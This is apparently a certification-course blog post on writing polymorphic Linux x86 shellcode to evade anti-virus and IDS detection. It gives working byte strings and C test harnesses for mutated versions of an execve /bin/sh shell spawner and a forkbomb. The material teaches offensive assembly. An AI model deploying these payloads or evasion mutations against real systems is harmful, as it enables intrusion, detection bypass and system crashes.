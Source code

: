 ```yaml
---
layout: single
title: Polymorphic Shellcode - Linux x86
date: 2018-1-27
classes: wide
header:
  teaser: /assets/images/Polymorphic_shellcode_linux_x86/Execve.png
---
```


Introduction
------------
Polymorphism is a technique used to mutate code in a way that will keep the original functionality intact. For example, `1+1` and `4-2` both achieve the same result while using different values and operations. Polymorphic shellcode can aid in efforts to evade Anti-virus and IDS/IPS. This post will look at few shellcodes and how to produce polymorphic version of them.

Shellcode I
-----------
The first shellcode we’re going to work with is [execve()](http://shell-storm.org/shellcode/files/shellcode-827.php), which basically spawn shell for us.

```nasm
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

Will mutate code and use the comments section to explain the process.

![](/assets/images/Polymorphic_shellcode_linux_x86/Execve.png)

Compile and test.

```sh
falafel@ubuntu:~/Desktop/Execve$ nasm -f elf32 -o Execve.o Execve.nasm
falafel@ubuntu:~/Desktop/Execve$ objdump -d ./Execve.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xc9\xeb\x05\x5b\x04\x0b\xcd\x80\xe8\xf6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"
falafel@ubuntu:~/Desktop/Execve$ cat Execve.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xc9\xeb\x05\x5b\x04\x0b\xcd\x80\xe8\xf6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
falafel@ubuntu:~/Desktop/Execve$ gcc -fno-stack-protector -z execstack Execve.c -o Execve
falafel@ubuntu:~/Desktop/Execve$ ./Execve 
Shellcode Length:  24
$ whoami
falafel
$
```

Shellcode II
------------
The second shellcode we’re going to mangle is [exit()](http://shell-storm.org/shellcode/files/shellcode-55.php), this one execute exit function with status code of 1.

```nasm
/* exit-core.c by Charles Stevenson < core@bokeoa.com >  
 *
 * I made this as a chunk you can paste in to make modular remote
 * exploits.  I use it when I need a process to exit cleanly.
 */
char hellcode[] = /*  _exit(1); linux/x86 by core */
// 7 bytes _exit(1) ... 'cause we're nice >:) by core
"\x31\xc0"              // xor  %eax,%eax
"\x40"                  // inc  %eax
"\x89\xc3"              // mov  %eax,%ebx
"\xcd\x80"              // int  $0x80
;

int main(void)
{
  void (*shell)() = (void *)&hellcode;
  printf("%d byte _exit(1); linux/x86 by core\n",
         strlen(hellcode));
  shell();
  return 0;
}
```

Mutate code and use the comments section to explain the process.

![](/assets/images/Polymorphic_shellcode_linux_x86/Exit.png)

Compile and test.

```sh
falafel@ubuntu:~/Desktop/Exit$ nasm -f elf32 -o Exit.o Exit.nasm
falafel@ubuntu:~/Desktop/Exit$ objdump -d ./Exit.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x6a\x02\x58\x48\x89\xc3\xcd\x80"
falafel@ubuntu:~/Desktop/Exit$ cat Exit.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x02\x58\x48\x89\xc3\xcd\x80";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
falafel@ubuntu:~/Desktop/Exit$ gcc -fno-stack-protector -z execstack Exit.c -o Exit
falafel@ubuntu:~/Desktop/Exit$ ./Exit 
Shellcode Length:  8
falafel@ubuntu:~/Desktop/Exit$
```

Shellcode III
-------------
The third and last shellcode we’re going to deal with is [fork()](http://shell-storm.org/shellcode/files/shellcode-214.php), this one will enter fork loop otherwise known as forkbomb until system crashes.

```nasm
/* By Kris Katterjohn 8/29/2006
 *
 * 7 byte shellcode for a forkbomb
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *      push byte 2
 *      pop eax
 *      int 0x80
 *      jmp short _start
 */

main()
{
       char shellcode[] = "\x6a\x02\x58\xcd\x80\xeb\xf9";

       (*(void (*)()) shellcode)();
}
```

Mutate code and use the comments section to explain the process.

![](/assets/images/Polymorphic_shellcode_linux_x86/Fork.png)

Compile it.

```sh
falafel@ubuntu:~/Desktop/Fork$ nasm -f elf32 -o ForkBomb.o ForkBomb.nasm
falafel@ubuntu:~/Desktop/Fork$ objdump -d ./ForkBomb.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x83\xc0\x02\xcd\x80\xeb\xf7"
falafel@ubuntu:~/Desktop/Fork$ cat ForkBomb.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x83\xc0\x02\xcd\x80\xeb\xf7";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
falafel@ubuntu:~/Desktop/Fork$ gcc -fno-stack-protector -z execstack ForkBomb.c -o ForkBomb
falafel@ubuntu:~/Desktop/Fork$
```

Obviously we’re not going to test this one unless we want to crash the system :D.

Closing Thoughts
----------------
I chose rather simple shellcode examples so we can focus on the basics really, hopefully you learned something from this post and feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%206](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%206)
